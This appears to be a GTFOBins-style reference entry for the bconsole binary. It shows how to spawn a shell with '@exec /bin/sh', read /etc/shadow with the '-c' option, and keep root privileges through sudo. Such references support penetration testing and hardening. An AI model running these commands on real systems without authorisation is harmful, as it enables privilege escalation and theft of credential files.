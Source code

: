 # GTFOBin: bconsole

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
bconsole
@exec /bin/sh
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

The file is actually parsed and the first wrong line is returned in an error message, thus it may not be suitable for reading arbitrary files.

```
bconsole -c /etc/shadow
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo bconsole
@exec /bin/sh
```